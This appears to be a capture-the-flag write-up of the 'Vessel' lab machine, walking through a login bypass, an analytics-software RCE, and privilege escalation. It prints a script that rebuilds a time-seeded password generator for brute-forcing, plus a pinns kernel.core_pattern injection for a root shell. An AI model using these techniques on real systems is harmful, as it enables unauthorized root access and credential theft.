# Vessel

## Gaining Access

As usual, an nmap scan to start:



### Webpage

Pretty standard webpage. Has a login page and a few other categories that could be vulnerable.


When investigating the login page, we can see that it allows us to create an account.



We can create a quick account for testing purposes.



However, the function seems to not be made available, and throws an error. When analysing the traffic generated, we can see that there is an /api backend.



From here, we should gobust the page to find other endpoints that could reveal some credentials or other vulnerabilities. Using feroxbuster, I was able to find a `/dev` endpoint.



However, this was nothing interesting. Other than that, I also found some Git Repository folders within the website through feroxbuster recursive search. This was through finding the .git folder and seeing that it does exist on the page.



We can then use `git-dumper` to pull these files.



After retrieving the files, we can proceed with some source code analysis.



### Source Code Analysis

The first thing I was interested in was the login page, and if it could be exploited in some manner.

From the source code in the `/routes` directory, we can see some SQL queries being passed to the backend API.



No input sanitising, but its not vulnerable to SQL Injection attacks.

From here, we can look at the logs to see if there were previous iterations of this file and if the mechanism was changed.



We can see that the login was indeed changed, and perhaps this could be vulnerable to SQL Injection after all. Since this was a node.js website, we can start researching for node.js related SQL Injections.

This website was a good read on how JS handles the type conversions and how they can be abused.



The exploit for this would involve putting in a string that gets treated as an Object type instead of a string type, thus allowing us to bypass the login.

Here's the payload used:



With this, we can login to the admin panel!



### Open Web Analytics

When looking around the admin panel, I didn't find much. However, in the top right corner of the page there was an analytics button that brings us to a new page.



This brought me to a new domain called `openwebanalytics.vessel.htb`.



A quick check on the page source reveals this is **version 1.7.3**. A bit of digging around newer exploits revealed that there is an RCE exploit available here.







We now have gained access to the machine.

## Privilege Escalation 1

### Password Generator

Now that we are www-data, we should check for what users are present. Within the /home directory, there are 2 users named **ethan** and **steven**.



We cannot access ethan's directory, but we can access steven's and see that he has a binary within his home directory that generates passwords.



Interestingly, there's also a hidden file named .notes that has a .pdf.



We can transfer both these files into our machine and begin our analysis.

### Code Analysis

The PDF seems to be password protected, amd I'm guessing the password is either within the binary or generated by it.

The screenshot reveals to us how many characters are this pdf, of which there are 32.



We would first need to decompile this binary to understand how it functions. In order to do this, we can try to find out what compiled it.

When doing strings on it, we can see the last few lines seems to indicate that a Python based compiler was used.



We can use this tool to retrieve the bytecode from the binary.



From this tool, we can get our loads of files from this one binary.



We can use another decompiler to extract code from the .pyc file into readable python code. This can be done using uncompyle6.



There was some difficulty in making this work due to incompatible Python versions, but there are a lot of releases that are comptaible with the newer Python versions.



Now, we can take a look at how this application generates its random passwords, and if we can possibly create our own wordlist and brute force the password out. Firstly, we can see this thisi binary uses the PySide2.Qt library to generate its passwords.



Then, we can take a look at the actual password generation.



With this, we can craft a script to generate passwords for us.

```python
#!/usr/bin/python3

from PySide2.QtCore import *

def genPassword():
    length = 32
    char = 0
    if char == 0:
        charset = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz1234567890~!@#$%^&*()_-+={}[]|:;<>,.?'
    else:
        if char == 1:
            charset = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz'
        else:
            if char == 2:
                charset = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz1234567890'
            else:
            	pass
    try:
        qsrand(QTime.currentTime().msec())
        password = ''
        for i in range(length):
            idx = qrand() % len(charset)
            nchar = charset[idx]
            password += str(nchar)

    except:
        print('error!')

    return password

def generate_all():
	words = []
	try:
		while True:
			ps = genPassword()
			if ps not in words:
				words.append(ps)
				print(len(words))
	except KeyboardInterrupt:
		with open('wordlist.txt','w') as file:
			for p in words:
				file.write(p + '\n')


generate_all()
```

This generates out all possible passwords in a wordlist, and we can begin to brute force the pdf using pdfcrack.

I tried this for really, really long and only then managed to find the password. This process seems to only generate about 999 passwords before becoming really slow as well. While I'm unsure if this is the intended method of getting the .pdf password, I eventually got the password.

This is the password: YG7Q7RDzA+q\&ke\~MJ8!yRzoI^VQxSqSS. For some reason pdfcrack appends its own stuff at the end.



Anyways, once we have this password, we can view the PDF and see the password for steven.



We can then SSH in as Ethan.



## Root Shell

When running linpeas.sh, we can find this SUID binary called `pinns`.



Again. researching on more recent vulnerabilities led me to this:



In short, pinns is basically used to set kernel options in a pod. In this machine, the version of pinns is vulnerable because it does not sanitise the kernel parameters, allowing for RCE. Since this is an SUID binary, it allows us to execute commands as root.

To exploit this, we would need to have a container of which we are root, and cause a core dump. This woudl trigger pinns, which is configured to execute a script of our choosing to give us a root shell.

### Exploitation

In a new directory for the machine, we can include a simple script that would make `/bin/bash` a SUID binary to escalate with. We also need two SSH sessions as ethan.

Then, we can execute these commands:



This would spawn a container for us to use for the core dump, and we would need to append something to the **mount** section of config.json: (basically setting the configuration of the container we generate with runc)

<pre><code>{
<strong>   "type": "bind",
</strong>   "source": "/",
   "destination": "/",
   "options": [
           "rbind",
           "rw",
           "rprivate"
   ]
}
</code></pre>

Then, we can run our container and spawn in as root for it.



We can configure our container to execute our malicious script using pinns, and then configure the container such that we get a core dump.

```bash
pinns -d /var/run -f 844aa3c8-2c60-4245-a7df-9e26768ff303 -s 'kernel.shm_rmid_forced=1+kernel.core_pattern=|/tmp/test/bar.sh #' --ipc --net --uts --cgroup

# in container
ulimit -s unlimited
tail -f /dev/null &
ps # check for tail PID
bash -i
kill -SIGSEGV <PID_for_tail>
```

Afterwards, we should see our script be executed and we can get a root shell using `bash -p`.



